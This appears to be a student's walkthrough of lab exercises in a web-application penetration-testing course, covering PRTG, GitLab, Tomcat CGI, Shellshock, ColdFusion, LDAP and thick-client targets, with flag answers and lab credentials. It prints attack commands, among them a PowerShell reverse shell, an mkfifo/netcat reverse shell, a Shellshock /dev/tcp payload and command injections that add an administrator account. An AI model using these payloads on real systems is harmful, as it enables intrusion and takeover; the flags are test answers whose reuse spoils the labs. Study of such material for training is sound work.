Ok it says 'C:\Windows\system32' so we need to go back twice, then cd to loot.
Then, we locate and get the flag content:


*_Figure 45.1 — Lab execution and output verification (Page 45)_*


*_Figure 45.2 — Lab execution and output verification (Page 45)_*


### PRTG Network Monitor

> **Lab Question (Page 46)**: What version of PRTG is running on the target?
>
> **Flag / Answer**: `18.1.37.13946`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first we run nmap scan on the target, output the results to xml file
With the command:
```bash
sudo nmap -sV -p- --open -T4 -oA web_discovery <target-IP>
```


There are plenty of ports which are open. And the machine OS is Windows.
We will focus on port 8080 – the PRTG service which is running on the port.
Next, we will use 'EyeWitness' to analyze the output xml with the same
command we used in 'EyeWitness' section:
eyewitness --web -x web_discovery.xml -d
inlanefreight_eyewitness


*_Figure 46.1 — Lab execution and output verification (Page 46)_*


> **Lab Question (Page 47)**: Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop.
>
> **Flag / Answer**: `WhOs3_m0nit0ring_wH0`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this part we will need the login credentials which are provided for
us by the section: prtgadmin:Password123
From here we will work the solution based on this CVE report and this
We will login with the credentials and get to the main dashboard:


*_Figure 47.1 — Lab execution and output verification (Page 47)_*


*_Figure 47.2 — Lab execution and output verification (Page 47)_*


### Then we select 'add new notification'

Next, we go to account settings - notification


Then we select 'add new notification':

From here there are 2 methods to proceed:
Method 1: we register an admin.
On the add notification page, we will name of notification ('pwn', for inctance):

And for the real matter – we activate 'Execute Program':

We select
Demo exe notification - outfile.ps1
For Program File, And


*_Figure 48.1 — Lab execution and output verification (Page 48)_*


*_Figure 48.2 — Lab execution and output verification (Page 48)_*


*_Figure 48.3 — Lab execution and output verification (Page 48)_*


*_Figure 48.4 — Lab execution and output verification (Page 48)_*


### for Parameters, then we Save

test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net
localgroup administrators prtgadm1 /add
for Parameters, then we Save:
basically we create a user with admin privileges whose username is 'prtgadm1'
and password is 'Pwn3d_by_PRTG!'

Looking back at the notifications page – we can confirm the 'pwn' indeed
added:

Select it, and then on the right select the bell – 'Send test notifications':

Then this window will appear:

We select ok.
When done, we run in our terminal the command to confirm user creation:


*_Figure 49.1 — Lab execution and output verification (Page 49)_*


*_Figure 49.2 — Lab execution and output verification (Page 49)_*


*_Figure 49.3 — Lab execution and output verification (Page 49)_*


*_Figure 49.4 — Lab execution and output verification (Page 49)_*


### When its done, we will get the flag from the smb server

#### Technical Methodology & Exploit Execution:

get Users\Administrator\Desktop\flag.txt


*_Figure 50.1 — Lab execution and output verification (Page 50)_*


*_Figure 50.2 — Lab execution and output verification (Page 50)_*


*_Figure 50.3 — Lab execution and output verification (Page 50)_*


### <pwnbox-port>

Now on our own pwnbox machine, we run 'ls' to confirm flag existence:

Flag existence confirm, now all we have to do is to get it with 'cat':


Method 2: obtain reverse shell:
For this method  this guide helped a lot (there is also Metasploit method there
but I did not implemented it).
First, we add new notification as the previous method (called shell)
But this time, on parameters – we add this reverse shell PowerShell script:
shell;"$client = New-Object
System.Net.Sockets.TCPClient('<pwnbox-IP>',<pwnbox-
port>);$stream = $client.GetStream();[byte[]]$bytes =
0..65535|%{0};while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback
= (iex $data 2>&1 | Out-String );$sendback2 = $sendback +
'PS ' + (pwd).Path + '> ';$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write(
$sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close
()"
make sure to change <pwnbox-IP> to attacker machine IP , and same with
<pwnbox-port>:


*_Figure 51.1 — Lab execution and output verification (Page 51)_*


*_Figure 51.2 — Lab execution and output verification (Page 51)_*


*_Figure 51.3 — Lab execution and output verification (Page 51)_*


*_Figure 51.4 — Lab execution and output verification (Page 51)_*


### When the listener is active, run the notification

Before we run it (with the same method) – we open netcat listener (make sure
it is the same port as the port in the picture above)
```bash
sudo nc -lnvp 5656
```


When the listener is active, run the notification:

With the same method.
And we got a connection:

First, we run to get to the desired path:
```bash
cd c:\Users\Administrator\Desktop
```


Then – cat the flag:

*Note: I aided here with the guide in the beginning of the question.
And here are other sources good for generating reverse shall in various
methods: source1 and source2


*_Figure 52.1 — Lab execution and output verification (Page 52)_*


*_Figure 52.2 — Lab execution and output verification (Page 52)_*


*_Figure 52.3 — Lab execution and output verification (Page 52)_*


*_Figure 52.4 — Lab execution and output verification (Page 52)_*


*_Figure 52.5 — Lab execution and output verification (Page 52)_*


### Management

> **Lab Question (Page 53)**: Find your way into the osTicket instance and submit the password sent from the Customer Support Agent to the customer Charles Smithson .
>
> **Flag / Answer**: `Inlane_welcome!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on vhost
'support.inlanefreight.local'.

Then, enter the website on browser:

Go to Sign-in in top-right corner.
when on sign-in page, sign in as agent:


*_Figure 53.1 — Lab execution and output verification (Page 53)_*


*_Figure 53.2 — Lab execution and output verification (Page 53)_*


### It will take us to agent login interface

It will take us to agent login interface:

The module had provided us with the credentials: kevin@inlanefreight.local:
Fish1ng_s3ason! (short explation, the module created faked credentials
supposedly leaked from dehashed service, which kevin's email and password
works.

Anyway lets log in:

We get to Kevin tickets, there, go to users:


*_Figure 54.1 — Lab execution and output verification (Page 54)_*


*_Figure 54.2 — Lab execution and output verification (Page 54)_*


*_Figure 54.3 — Lab execution and output verification (Page 54)_*


### We observe Charles Smithson ticket, lets open it

We observe Charles Smithson ticket, lets open it:

We see he has a single ticket 'VPN password reset' under his name.
When opening it, scroll down and you will find the answer:


*_Figure 55.1 — Lab execution and output verification (Page 55)_*


*_Figure 55.2 — Lab execution and output verification (Page 55)_*


*_Figure 55.3 — Lab execution and output verification (Page 55)_*


### Gitlab - Discovery & Enumeration

> **Lab Question (Page 56)**: Enumerate the GitLab instance at http://gitlab.inlanefreight.local. What is the version number?
>
> **Flag / Answer**: `13.10.2`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on vhost
'gitlab.inlanefreight.local'.
Then we enter the URL in the browser, it immediately  takes us to sign-in:

the first place we will look is help at the bottom of the page:

But upon inspecting the help page, we see nothing of worth:


*_Figure 56.1 — Lab execution and output verification (Page 56)_*


*_Figure 56.2 — Lab execution and output verification (Page 56)_*


*_Figure 56.3 — Lab execution and output verification (Page 56)_*


### So we opt to register an account

So we opt to register an account:

→

Enter your user and register:

When done, we will go to the dashboard of our fresh created user, now it
would be a good time to re-visit help:
→


*_Figure 57.1 — Lab execution and output verification (Page 57)_*


*_Figure 57.2 — Lab execution and output verification (Page 57)_*


*_Figure 57.3 — Lab execution and output verification (Page 57)_*


*_Figure 57.4 — Lab execution and output verification (Page 57)_*


*_Figure 57.5 — Lab execution and output verification (Page 57)_*


### On project page, select all and then inlanefriehgt dev

> **Lab Question (Page 58)**: Find the PostgreSQL database password in the example project.
>
> **Flag / Answer**: `postgres`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

go to main dashboard, scroll down a bit and select explore projects:

On project page, select all and then inlanefriehgt dev:

As it is development, it is plausible that password may have been left in the
configuration files, lets inspect it:

As we look down


*_Figure 58.1 — Lab execution and output verification (Page 58)_*


*_Figure 58.2 — Lab execution and output verification (Page 58)_*


*_Figure 58.3 — Lab execution and output verification (Page 58)_*


### The phpunit_pgsql.xml file looks interesting

The phpunit_pgsql.xml file looks interesting:

We can immediately spot the 'postgres' database and the 'db_password'.


*_Figure 59.1 — Lab execution and output verification (Page 59)_*


*_Figure 59.2 — Lab execution and output verification (Page 59)_*


### Attacking GitLab

> **Lab Question (Page 60)**: Find another valid user on the target GitLab instance.
>
> **Flag / Answer**: `DEMO`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will run user enumeration, for that we will use this bash provided
tool (there is also this equivalent python tool but I didn't use it).
For that we will create a sh file, grant it execution permissions:

And paste the content to it with nano.
Now we also need a wordlist, we will head to the question hint ('Use a wordlist
from Seclists (in /opt/useful/SecLists/Usernames on the Pwnbox).')
and we run the command:
./gitlab_userenum.sh --url
http://gitlab.inlanefreight.local:8081/ --userlist
/opt/useful/SecLists/Usernames/cirt-default-usernames.txt|
```bash
grep exists
```
After several seconds, we get the answer:

(root is the default admin username ofcourse, not the username we seek)

Question: Gain remote code execution on the GitLab instance. Submit the flag
in the directory you land in.
Answer: s3cure_y0ur_Rep0s!
Method: for that we will use this vulnerability which allows RCE on gitlab
version smaller than 13.10.3, and this python exploit of the vulnerability.
So first we create a file called 'gitlab_13_10_2_rce.py' and put the python
script in it.


*_Figure 60.1 — Lab execution and output verification (Page 60)_*


*_Figure 60.2 — Lab execution and output verification (Page 60)_*


### when we have a listener on, we run the command

#### Technical Methodology & Exploit Execution:

```bash
nc -lnvp 4444
```


when we have a listener on, we run the command:
```bash
python3 gitlab_13_10_2_rce.py -t
```
http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1
-c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc
<pwnbox-IP> 8443 >/tmp/f '
running the script..

And we got shell:

Now all we have to do is find and get the flag's content:


*_Figure 61.1 — Lab execution and output verification (Page 61)_*


*_Figure 61.2 — Lab execution and output verification (Page 61)_*


*_Figure 61.3 — Lab execution and output verification (Page 61)_*


*_Figure 62.1 — Lab execution and output verification (Page 62)_*


### Common Gateway Interfaces

> **Lab Question (Page 63)**: After running the URL Encoded 'whoami' payload, what user is tomcat running as?
>
> **Flag / Answer**: `feldspar\omen`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we need to run nmap on our target machine to determine In
which port tomcat is running on. We will use the command:
```bash
nmap -p 1-10000 -sV <TargetIP> --open
```
*scan ports 1-10000 with service/version inspection (-sV):

The relevant finding for our needs is Apache Tomcat 9.0.17 running on port
8080, running of Windows machine.
Now we will base our attack on this CVE-2019-0232 vulnerability, which allows
RCE on Apache tomcat up to version 9.0.17 with CGI (Common Gateway
Interface, protocol for web servers to execute external programs)
For that we will run ffuf web enumation tool, targeting /cgi/FUZZ.cmd
(targeting the default directory of CGI with fuzzing attack:
```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u
```
http://<target-IP>:8080/cgi/FUZZ.bat | grep 200
the results we filtering for http status code 200 (SUCSESS)


*_Figure 63.1 — Lab execution and output verification (Page 63)_*


*_Figure 63.2 — Lab execution and output verification (Page 63)_*


### in the browser URL

now lets enter
http://<target-IP>:8080/cgi/welcome.bat
in the browser URL:

We got this message.
But as this page is vulnetable for RCE, we can inject commands to the URL like
this, in this example we run 'cd' (windows version of pwd):
http://<target-IP>:8080/cgi/welcome.bat?&dir


We we got what we wanted.
Now lets try get the whoami:

No output:


*_Figure 64.1 — Lab execution and output verification (Page 64)_*


*_Figure 64.2 — Lab execution and output verification (Page 64)_*


*_Figure 64.3 — Lab execution and output verification (Page 64)_*


*_Figure 64.4 — Lab execution and output verification (Page 64)_*


### The end result

We run the command set – someone removed the 'PATH' environment
variable, required for many of the default cmd exe such as 'whoami'.
So, we need to enter the whoami.exe path manually to the URL:

Not working, the URL cant encode the character ':' , '\'.
We will convert the characters to its URL encoding based on their ASCII value:
':' to %3A, and '\' to '5C'

*from asciitable
The end result:
http://<target-IP>:8080/cgi/welcome.bat?
&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe


*_Figure 65.1 — Lab execution and output verification (Page 65)_*


*_Figure 65.2 — Lab execution and output verification (Page 65)_*


*_Figure 65.3 — Lab execution and output verification (Page 65)_*


*_Figure 65.4 — Lab execution and output verification (Page 65)_*


### we get this result

> **Lab Question (Page 66)**: Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server.
>
> **Flag / Answer**: `Sh3ll_Sh0cK_123`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

this method is also used by exploiting the CGI system, this time with
'shellshock' CVE-2014-6271 vulnerability, which by using environment variable,
may execute unintentional commands.
For that, we will first run gobuster path enumation with this command:
```bash
gobuster dir -u http://<target-IP>/cgi-bin/ -w
```
/usr/share/wordlists/dirb/small.txt -x cgi
we get this result:

We have a possible path '/access.cgi', however its size is 0.. mmm...
We will try to test the path with the shellshock vulnerability, for test, we will try
this command:
```bash
curl -H 'User-Agent: () { :; }; echo ; echo ; pwd' bash -s
```
:'' http://<target-IP>/cgi-bin/access.cgi


*_Figure 66.1 — Lab execution and output verification (Page 66)_*


*_Figure 66.2 — Lab execution and output verification (Page 66)_*


### We will inspect the directory with 'ls'

#### Technical Methodology & Exploit Execution:

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >&
```
/dev/tcp/<attacker-IP>/5656 0>&1
where the 'pwd' was:


*_Figure 67.1 — Lab execution and output verification (Page 67)_*


*_Figure 67.2 — Lab execution and output verification (Page 67)_*


*_Figure 67.3 — Lab execution and output verification (Page 67)_*


### Lets see the listener

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >&
```
/dev/tcp/<attacker-IP>/5656 0>&1' http://<target-IP>/cgi-
bin/access.cgi


Lets see the listener:

We got shell!
From here obtaining the flag is simply a matter of 'ls' and 'cat':


*_Figure 68.1 — Lab execution and output verification (Page 68)_*


*_Figure 68.2 — Lab execution and output verification (Page 68)_*


*_Figure 68.3 — Lab execution and output verification (Page 68)_*


### Thick Client Applications

> **Lab Question (Page 69)**: Perform an analysis of C:\Apps\Restart-OracleService.exe and identify the credentials hidden within its source code. Submit the answer using the format username:password.
>
> **Flag / Answer**: `svc_oracle:#oracle_s3rV1c3!2010`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will login to the windows machine with this rdp command:
```bash
xfreerdp /u:cybervaca /p:'&aue%C)}6g-d{w' /v:<Target IP>
```
/dynamic-resolution


Upon activating the Windows machine, we are being greeted by various
analysis tools for various purposes, especially for inspecting programs:

now we need to extract the credential from this program:

First I tried running 'strings' on it to find useful strings of username and
password but it did no good..


*_Figure 69.1 — Lab execution and output verification (Page 69)_*


*_Figure 69.2 — Lab execution and output verification (Page 69)_*


*_Figure 69.3 — Lab execution and output verification (Page 69)_*


*_Figure 69.4 — Lab execution and output verification (Page 69)_*


### analysis

dnSpy (.NET decompiler) tool also didn't help much so the next step was to
dynamically analysis with process monitor.
We will open process monitor, and enable the following filter:

When the filter is on, we run the 'Restart-OracleService.exe'

The program itself didn't display any ouput, lets see the process monitor
analysis:

It seems like a lot of activity,
First, let's confirm there is no network activity:

Ok that's good enough,


*_Figure 70.1 — Lab execution and output verification (Page 70)_*


*_Figure 70.2 — Lab execution and output verification (Page 70)_*


*_Figure 70.3 — Lab execution and output verification (Page 70)_*


*_Figure 70.4 — Lab execution and output verification (Page 70)_*


### Now we will inspect file system activity

Now we will inspect file system activity:

Ok let's inspect further the activity:

There seem to be activity in this 'Temp\2', we will open the folder path (don't
forget to enable 'view hidden items'):

Except a single file (which does not appear with the process monitor activity,
there is nothing – it seems the files are deleted at the end of the process
execution.
We have to run the program again, but this time, we will disable content
deletion from the folder first.


*_Figure 71.1 — Lab execution and output verification (Page 71)_*


*_Figure 71.2 — Lab execution and output verification (Page 71)_*


*_Figure 71.3 — Lab execution and output verification (Page 71)_*


### This is how it is done

This is how it is done:


And after we run the program again, we get these files within the 'Temp\2'
path:


*_Figure 72.1 — Lab execution and output verification (Page 72)_*


*_Figure 72.2 — Lab execution and output verification (Page 72)_*


*_Figure 72.3 — Lab execution and output verification (Page 72)_*


*_Figure 72.4 — Lab execution and output verification (Page 72)_*


### click it and select 'edit'

The 'F9A.tmp' is an empty file, lets check the 'FTA.bat' batch file, we will right
click it and select 'edit':


There are operations committed upon those files, and then they are deleted.
We will remove the del commands, and re-run the .bat file:

These 2 files were created in '\ProgramData':

Oracle.txt is some long base64 string:


*_Figure 73.1 — Lab execution and output verification (Page 73)_*


*_Figure 73.2 — Lab execution and output verification (Page 73)_*


*_Figure 73.3 — Lab execution and output verification (Page 73)_*


*_Figure 73.4 — Lab execution and output verification (Page 73)_*


### Now let's inspect the PowerShell 'monta.ps1' script

Now let's inspect the PowerShell 'monta.ps1' script:

We read the oracle.txt, decode it from base64 and write the output to restart-
service.exe.
We need the restart-service.exe, lets run the powershell script:

*I had to open PowerShell as administrator for it to run, not sure why I didn't
linger on it*
We got this executable as output:

We will run it while using process monitor
First we modify the process monitor filters:

So, it will display the restart-service.exe and won't display the original process.
Let's run the restart-service.exe:


*_Figure 74.1 — Lab execution and output verification (Page 74)_*


*_Figure 74.2 — Lab execution and output verification (Page 74)_*


*_Figure 74.3 — Lab execution and output verification (Page 74)_*


*_Figure 74.4 — Lab execution and output verification (Page 74)_*


*_Figure 74.5 — Lab execution and output verification (Page 74)_*


### Lets inspect the process with 'x64dbg'

The inspection of process monitor didn't show anything interesting.
Lets inspect the process with 'x64dbg':

When its open, we go to 'Options' → 'Preferences':

There, we will check only 'exit breakpoint':


*_Figure 75.1 — Lab execution and output verification (Page 75)_*


*_Figure 75.2 — Lab execution and output verification (Page 75)_*


*_Figure 75.3 — Lab execution and output verification (Page 75)_*


### We go to memory map

Then we go to file → open and then select our restart-service.exe:

We get a lot of data,
We go to memory map:

Pay attention to the marked line:


*_Figure 76.1 — Lab execution and output verification (Page 76)_*


*_Figure 76.2 — Lab execution and output verification (Page 76)_*


*_Figure 76.3 — Lab execution and output verification (Page 76)_*


### *better explanation from the section

Memory dump type map, with both read and write permission suggests it
could be a place to store hard coded credentials
*better explanation from the section:
*
We will dump the memory section to file:


*_Figure 77.1 — Lab execution and output verification (Page 77)_*


*_Figure 77.2 — Lab execution and output verification (Page 77)_*


*_Figure 77.3 — Lab execution and output verification (Page 77)_*


### Let's run strings64.exe on the file we just saved

Let's run strings64.exe on the file we just saved:

Among other files there are these:

We are dealing with .NET executable.
Now we will use the de4dot - .NET deobfuscator and depacker:

a 'cleaned' version of the file were created as output (xxxx-cleaned.bin).


*_Figure 78.1 — Lab execution and output verification (Page 78)_*


*_Figure 78.2 — Lab execution and output verification (Page 78)_*


*_Figure 78.3 — Lab execution and output verification (Page 78)_*


*_Figure 78.4 — Lab execution and output verification (Page 78)_*


### function

that we can run on dnSpy – drag the cleaned.bin file to the dnSpy,
and when done – observe the 'runas' folder ,open it and get to the Main
function:

All we have left to do is to get the username from line 10, and the password it's
easy to see it's the text variable in line 13, appended char by char to the
password field in line 20.


*_Figure 79.1 — Lab execution and output verification (Page 79)_*


### error

> **Lab Question (Page 80)**: What is the IP address of the eth0 interface under the ServerStatus → Ipconfig tab in the fatty-client application?
>
> **Flag / Answer**: `172.28.0.3`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will login to the windows machine with this rdp command:
```bash
xfreerdp /u:cybervaca /p:'&aue%C)}6g-d{w' /v:<Target IP>
```
/dynamic-resolution
when the windows machine is up – we will go to the path 'C:\Apps':

We see the app 'fatty-client.jar'.

Before we proceed – the section provided us with some notes:

Now, when opening the application with double click, entering the provided
credentials from the note above and attempting to login, we get connection
error:

Lets try to connect again, but this time with Wireshark on:


*_Figure 80.1 — Lab execution and output verification (Page 80)_*


*_Figure 80.2 — Lab execution and output verification (Page 80)_*


*_Figure 80.3 — Lab execution and output verification (Page 80)_*


### We determine that with 'ipconfig'

But which interface we select?
We determine that with 'ipconfig':

Ethernet0 is the interface of the linking between the target windows machine
and the pwnbox machine I use to connect to it, so the relevant interface for our
case is Ethernet1, so that is the interface we select, then, we attempting to re-
login:

This is the Wireshark traffic generated from the re-login attempt – we attempt
to connect with tcp to port 8000 of the server (172.16.17.114) but to no avail.
So we try again 2 more times, for vain.
We need to reconfigure the fatty-client to attempt to connect to port 1337 and
not port 8000 (as 1337 is the server port as we were informed by the section)
Well as fatty-client is a jar file, we can extract it:


*_Figure 81.1 — Lab execution and output verification (Page 81)_*


*_Figure 81.2 — Lab execution and output verification (Page 81)_*


*_Figure 81.3 — Lab execution and output verification (Page 81)_*


*_Figure 81.4 — Lab execution and output verification (Page 81)_*


### We will use PowerShell to determine

#### Technical Methodology & Exploit Execution:

We open the beans.xml file, line 13:

→

Now we need to re-sign the .jar, for that we will go to META-INF folder,
And 1. Delete the '1.RSA' and '1.SF' files


*_Figure 82.1 — Lab execution and output verification (Page 82)_*


*_Figure 82.2 — Lab execution and output verification (Page 82)_*


*_Figure 82.3 — Lab execution and output verification (Page 82)_*


### 2. in 'MANIFEST.MF' file keep

#### Technical Methodology & Exploit Execution:

jar -cmf .\META-INF\MANIFEST.MF fatty-client-new.jar *
which does creates the new 'fatty-client'new.jar' with a provided manifest file:


*_Figure 83.1 — Lab execution and output verification (Page 83)_*


*_Figure 83.2 — Lab execution and output verification (Page 83)_*


*_Figure 83.3 — Lab execution and output verification (Page 83)_*


### Login successful! Proceed with selecting 'OK'

and we have 'fatty-client-new.jar' as output

Now lets open it, and enter the same credentials from the last time:

Login successful! Proceed with selecting 'OK':


*_Figure 84.1 — Lab execution and output verification (Page 84)_*


*_Figure 84.2 — Lab execution and output verification (Page 84)_*


*_Figure 84.3 — Lab execution and output verification (Page 84)_*


*_Figure 84.4 — Lab execution and output verification (Page 84)_*


### So lets inspect other options, such as FileBrowser

We get to some blank screen and some options.
We want the ServerStatus→ipconfig but unfortunately its disabled

So lets inspect other options, such as FileBrowser:

The Notes option look interesting:

We opened the notes, and at the bottom of the page we may type files we
want to open, we entered 'security.txt':

Ok we have critical vulnerabilities in this application, lets go and find them.


*_Figure 85.1 — Lab execution and output verification (Page 85)_*


*_Figure 85.2 — Lab execution and output verification (Page 85)_*


*_Figure 85.3 — Lab execution and output verification (Page 85)_*


*_Figure 85.4 — Lab execution and output verification (Page 85)_*


### on mail section we get 3 mails

on mail section we get 3 mails:

The interesting one is from Dave:

Which tells us that the all other users but 'qtc' were removed from the
database, and heavy time SQL injection attacks are no longer possible, which
might imply that light time SQL injection attacks are possible.
Attemping to do path traversal result with problem with parsing '/':


*_Figure 86.1 — Lab execution and output verification (Page 86)_*


*_Figure 86.2 — Lab execution and output verification (Page 86)_*


*_Figure 86.3 — Lab execution and output verification (Page 86)_*


### 'TOOLS' folder

We will use JD-GUI (Java Decompiler) to fix that, we have one already in the
'TOOLS' folder:


And we drag the 'fatty-client-new' to the JD:

And we save the source code with 'File' → 'Save All Sources':

And we have this new zip file created:


*_Figure 87.1 — Lab execution and output verification (Page 87)_*


*_Figure 87.2 — Lab execution and output verification (Page 87)_*


*_Figure 87.3 — Lab execution and output verification (Page 87)_*


*_Figure 87.4 — Lab execution and output verification (Page 87)_*


### And go to 'addActionListener'

#### Technical Methodology & Exploit Execution:

The function takes a string and adds it as argument, then it invokes the
'sendAndRecv()' which sends the data to the server.
Then we open 'ClientGuiTest.java'

And go to 'addActionListener':


*_Figure 88.1 — Lab execution and output verification (Page 88)_*


*_Figure 88.2 — Lab execution and output verification (Page 88)_*


*_Figure 88.3 — Lab execution and output verification (Page 88)_*


*_Figure 88.4 — Lab execution and output verification (Page 88)_*


*_Figure 88.5 — Lab execution and output verification (Page 88)_*


### modify 'configs' to '..' in lines 372 and 374

#### Technical Methodology & Exploit Execution:

**TO BE COMPLETED**


*_Figure 89.1 — Lab execution and output verification (Page 89)_*


*_Figure 89.2 — Lab execution and output verification (Page 89)_*


### Miscellaneous Applications

> **Lab Question (Page 90)**: What ColdFusion protocol runs on port 5500?
>
> **Flag / Answer**: `Server Monitor`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

The section's page directly provides the answer:


Attacking ColdFusion:
Question: What user is ColdFusion running as?
Answer: arctic\tolis
Method: First, lets determine the ColdFusion version:
We will use nmap for that:
```bash
nmap -p 1-10000 -Pn <target-IP> --open
```
we get this:

The open port for our needs is 8500


*_Figure 90.1 — Lab execution and output verification (Page 90)_*


*_Figure 90.2 — Lab execution and output verification (Page 90)_*


### Lets scan the port with -sV flag (service scan)

Lets scan the port with -sV flag (service scan):
```bash
nmap -p 8500 -sV -Pn <target-IP> --open
```


lets access the target and port as URL on browser:

From here we peocreed to 'CFIDE/administrator':

We enter the path in the URL:


*_Figure 91.1 — Lab execution and output verification (Page 91)_*


*_Figure 91.2 — Lab execution and output verification (Page 91)_*


*_Figure 91.3 — Lab execution and output verification (Page 91)_*


*_Figure 91.4 — Lab execution and output verification (Page 91)_*


### We write the command

#### Technical Methodology & Exploit Execution:

searchsploit adobe coldfusion


There are several options, we can observe that there is Directory traversal for
all versions, and Remote command execution for our version.
Lets take the 2nd option.
The vulnerability the 'searchploit'  found is CVE-2009-2265 – on the Path
column in the picture above, we can see its path is 50057.py. and that we shall
search:
searchsploit -p 50057


*_Figure 92.1 — Lab execution and output verification (Page 92)_*


*_Figure 92.2 — Lab execution and output verification (Page 92)_*


### Reminder when modifying the parameters

The URL displayed can be accessed here. And the python script in the URL field
and Code field is identical.
The attacker and target parameters are hard coded in the main function:

We need to modify them (don't forget the sudo!)
Reminder when modifying the parameters:

And in our case:

Before running the modified script – we open nc listener on port 4444:
```bash
nc -lnvp 4444
```


Once the listener is running, we may run the script:


*_Figure 93.1 — Lab execution and output verification (Page 93)_*


*_Figure 93.2 — Lab execution and output verification (Page 93)_*


*_Figure 93.3 — Lab execution and output verification (Page 93)_*


*_Figure 93.4 — Lab execution and output verification (Page 93)_*


### From here, simple whoami command would reveal the answer

And on listener – we have a shell!

From here, simple whoami command would reveal the answer:


*_Figure 94.1 — Lab execution and output verification (Page 94)_*


*_Figure 94.2 — Lab execution and output verification (Page 94)_*


*_Figure 94.3 — Lab execution and output verification (Page 94)_*


### IIS Tilde Enumeration

> **Lab Question (Page 95)**: What is the full .aspx filename that Gobuster identified?
>
> **Flag / Answer**: `transfer.aspx`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we run nmap port scanner with the command:
```bash
nmap -p 1-10000 -sV -sC --open <target-IP>
```
to scan ports 1-10000 (with -sV default script for more information)

We can observe that the http port 80 is open.
Now we will perform ISS Tilde Enumeration on the target.
For that we first use enumation tool to find the tilde-based path, and then use
'gobuster' path bruteforce tool.
For the enumation tool we would need to download and install Java Oracle
The correct download link (for the latest version at the time of this report
writing – 22.0.1) is much depend on your OS and distribution, I used debian
based machine pwnbox:


Once downloaded – install the package with this command:
```bash
sudo apt install ~/jdk-22_linux-x64_bin.deb
```


*_Figure 95.1 — Lab execution and output verification (Page 95)_*


*_Figure 95.2 — Lab execution and output verification (Page 95)_*


### When done, update java configuration with the command

#### Technical Methodology & Exploit Execution:

```bash
sudo update-alternatives --config java
```


Once we have the oracle, we install the IIS-ShortName-Scanner:
git clone https://github.com/irsdl/IIS-ShortName-Scanner.git


```bash
cd yourself to the 'IIS-ShortName-Scanner/release/' subdirectory
cd IIS-ShortName-Scanner/release/
```

And run the tool with the command:
java -jar iis_shortname_scanner.jar 0 5 http://<target-IP>/
*note – you have to change directory first and then run it, placing the path
prefix like 'IIS-ShortName-Scanner/release/iis...jar......' directly in the command
without changing directory will NOT work. *

Select no.


*_Figure 96.1 — Lab execution and output verification (Page 96)_*


*_Figure 96.2 — Lab execution and output verification (Page 96)_*


*_Figure 96.3 — Lab execution and output verification (Page 96)_*


#### Technical Methodology & Exploit Execution:

egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' >
/tmp/list.txt
let's analyse the command before we proceed.
Beforehand – detailed explanation from the module's section:

Now, the command takes all the words in all the files (in recursive manner (-r))
in '/usr/share/wordlists/' directory – that begins with 'transf' ('^' symbol is
regex for string that begins with the provided substring – in our case – 'transf',
so words like transform, transport... will be picked by the 'egrep' command)


*_Figure 97.1 — Lab execution and output verification (Page 97)_*


*_Figure 97.2 — Lab execution and output verification (Page 97)_*


### the output

#### Technical Methodology & Exploit Execution:

```bash
gobuster dir -u http://<target-IP>/ -w /tmp/list.txt -x
```
.aspx,.asp
looking for paths with the extensions '.aspx', '.asp':


*_Figure 98.1 — Lab execution and output verification (Page 98)_*


*_Figure 98.2 — Lab execution and output verification (Page 98)_*


### Attacking LDAP

> **Lab Question (Page 99)**: After bypassing the login, what is the website "Powered by"?
>
> **Flag / Answer**: `w3.css`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we run nmap port scanner with the command:
```bash
nmap -p 1-10000 -sV -sC --open <target-IP>
```
to scan ports 1-10000 (with -sV default script for more information)

we have ldap - port  389 open. The ldap version is 2.2.X to 2.3.X
we also have http - port 80 open.
Lets try to enter the url
http://<target-IP>
to the browser:

Now as it is ldap machine, lets try to do ldap injection with asterisk wildcard:


*_Figure 99.1 — Lab execution and output verification (Page 99)_*


*_Figure 99.2 — Lab execution and output verification (Page 99)_*


login..

We got to the main page, with the powered by value right in front of us.


*_Figure 100.1 — Lab execution and output verification (Page 100)_*


*_Figure 100.2 — Lab execution and output verification (Page 100)_*


### Web Mass Assignment Vulnerabilities

> **Lab Question (Page 101)**: We placed the source code of the application we just covered at /opt/asset-manager/app.py inside this exercise's target, but we changed the crucial parameter's name. SSH into the target, view the source code and enter the parameter name that needs to be manipulated to log in to the Asset Manager web application.
>
> **Flag / Answer**: `active`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

connect to the target machine via ssh, we are provided with the
credentials root:!x4;EW[ZLwmDx?=w with the command:
```bash
ssh root@<target-IP>
```
then we cat for '/opt/asset-manager/app.py', the function we need is 'register':

We can observe that if the request parameter 'active' exists – the function sets
the variable 'cond' to true, else (or more specifically the error that the lack of
such assignment would generate, but the 'except' deals with) – 'cond' would
be set to false.
That 'cond' is being stored along with the registered credentials in the
database.
Now the login function:


*_Figure 101.1 — Lab execution and output verification (Page 101)_*


We can observe that the stored 'cond' value in the register function –
corresponds to the assigned 'k' value in the login function.
If 'k' is true – approve login. Else – the account is still pending for admin
approval.


*_Figure 102.1 — Lab execution and output verification (Page 102)_*


